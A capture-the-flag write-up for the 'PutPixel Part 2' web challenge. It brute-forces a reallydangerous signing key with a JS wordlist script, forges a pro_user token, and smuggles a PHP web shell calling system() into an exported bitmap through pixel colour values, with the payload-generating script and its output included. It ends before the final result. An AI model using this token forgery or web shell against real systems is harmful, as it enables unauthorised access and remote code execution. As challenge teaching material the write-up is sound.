

# PutPixel Part 2

SieberrSec Industries' rival has released a new product called "PutPixel", and we need some intelligence on it. Unfortunately, that's all the info we have; it looks like they have been keeping their cards close to their chest.

<http://putpixel.sieberrsec.live/41f47fe0-9b02-455e-97a3-03b970768afd-1/>

Alternate link:

<http://putpixel.sieberrsec.live/41f47fe0-9b02-455e-97a3-03b970768afd-2/>

This looks like a budget clone of Reddit's r/Place... Can we hack it?

---

I first landed in some pixel drawing interface. Since I was sick of CTF, I
decided to play with the pixels for 5 minutes.


OK back to work. After scrolling through the source for a while, I noticed a
function `exportPixels()` which basically fetches `/export.php` with the pixel
map and a param that is quite similar to JWT or flask session tokens. This token
indicates our role and looks like this:

`anonymous_user.G9WrB5pktBpto7_KosU9DT8jF0I`

Also, I noticed a very subtle and covert advertisement to (probably the author's
or the author's senior's) npm package,
[reallydangerous](https://www.npmjs.com/package/reallydangerous). It's a JS port
of the python package,
[itsdangerous](https://itsdangerous.palletsprojects.com/en/2.1.x/).

Long story short, this package takes some input and appends a (custom)
base64-encoded signature to it, using some fancy HMAC-SHA1 algorithm. The
signature stops attackers from modifying the value (in this case
`anonymous_user`).

When I called the `exportPixels()` function manually, it redirected me to
`/export.php`, however because I am an anonymous_user and not a pro_user, it
stops me from exporting my pixels. :(

At this point I know my target is to change anonymous_user to pro_user.

Since reallydangerous was relatively unknown, I thought the vulnerability was in
the package. I spent a few hours browsing through and trying to spot any
vulnerabilities, but sadly to no avail. 

My 2nd guess is to brute-force the secret key used for signing. Again, I spent a
few hours trying to use hashcat to crack the key (since I'm not familiar with
HMAC and I thought it was a standard HMAC algorithm). However, I couldn't
proceed as the key is appended with a salt before hashing, and the output hash
is then used as the actual key to sign. So hashcat didn't have this algorithm
and I couldn't use it to crack the key.

With no other choice I need to write a script to manually crack the key.
Fortunately, JS has pretty good async support and is relatively fast (unlike
Python), so I thought it might be feasible.

Here's the script I used to brute-force:

```js
const rd = require("reallydangerous")

// value, sig
const test = ["anonymous_user", "G9WrB5pktBpto7_KosU9DT8jF0I"]

const filename = "/home/samuzora/ctf/tools/hashcat/rockyou.txt"
const wordlist = require("fs").readFileSync(filename, 'utf-8').split('\n')

Promise.all(wordlist.map(async letter => {
  const signer = new rd.Signer(letter);
  if (signer.verify_signature(test[0], test[1])) {
    console.log(letter)
    process.exit()
  }
}
))
```

I ran it against rockyou.txt, and soon enough my program cracked the key!

```
● comp/sieberrsec/putpixel (^._.^)
$ node brute.js
 gateway05
```

(Yes, ` gateway05` with a space in front)

From this, I can verify if the key is actually correct using the following
script:

```js
const rd = require("reallydangerous")

const signer = new rd.Signer(" gateway05")
console.log(signer.sign("anonymous_user"))
console.log(signer.sign("pro_user"))
```

```
● comp/sieberrsec/putpixel (^._.^)
$ node solve.js 
anonymous_user.G9WrB5pktBpto7_KosU9DT8jF0I
pro_user.YGD6iYfj5p91wq1KdfXbTxiEiIY
```

Very nice :)

Using the forged token, I sent another request via Burp Repeater as such:



Sadly, this didn't give me the flag. 

After some thought, I googled BM66 magic bytes and it turns out this is in fact
not PNG, but BMP file format, or bitmap. Each pixel is represented almost
directly by its decoded hex value (so `#414141` would be represented by `AAA`).
I double-checked this using Python and it seems to hold.

So technically, I can directly control the bitmap array and it would reflect
almost 1-1 in the response. But how could this benefit me?

After experimenting a bit I realized this sounded a lot like usual file upload
attacks. By changing the array, I'm "uploading" a file to the server, which
responds with the decoded bitmap.

Since the backend is php, I can exploit file upload quite easily. But first,
let's see how the bitmap array translates to the decoded form. I changed the
1st pixel to #414243 ("ABC") and the 2nd pixel to #616263 ("abc"). Just for
fun, I changed the 1st pixel of the 2nd row to #414141 ("AAA") as well.


Erm... 

It seems that the 1st pixel isn't at the start...

And the 2nd pixel isn't after the 1st pixel...

But the 1st pixel of the 2nd row is after the first pixel...

And each pixel is in little endian...

Sadly, this means I need a lot more effort to get my payload working. Before
investing another 3 hours into this, I first double-checked if my PHP RCE even
worked with a simple echo. By hand, I painstakingly converted each letter in the
following payload to groups of 3 hex bytes and put them in their respective
places.

`<?php echo 'h';?>`

To my surprise, it actually worked! Before I entered the last pixel I could
clearly see my payload being put it letter by letter, but after the payload was
finished the output was just a h.

Excited, I quickly wrote a small Python script to slice the payload nicely for
me:

```py 
payload = "<?php echo system($_POST['a']);?>"

payload = [list(payload[j:j+3]) for j in range(0, len(payload), 3)]

for i in payload:
    out = "#"
    for j in i[::-1]:
        out += hex(ord(j))[2:]
    print(out)
```

```
● comp/sieberrsec/putpixel (^._.^)
$ python3 gen_payload.py
#703f3c
#207068
#686365
#73206f
#747379
#286d65
#505f24
#54534f
#61275b
#295d27
#3e3f3b
```

Then I pasted each pixel into the corresponding rows. Fortunately, I didn't
exceed the 16 rows since I was too lazy to figure out what to do should my
payload be too long.

And at last!!!:


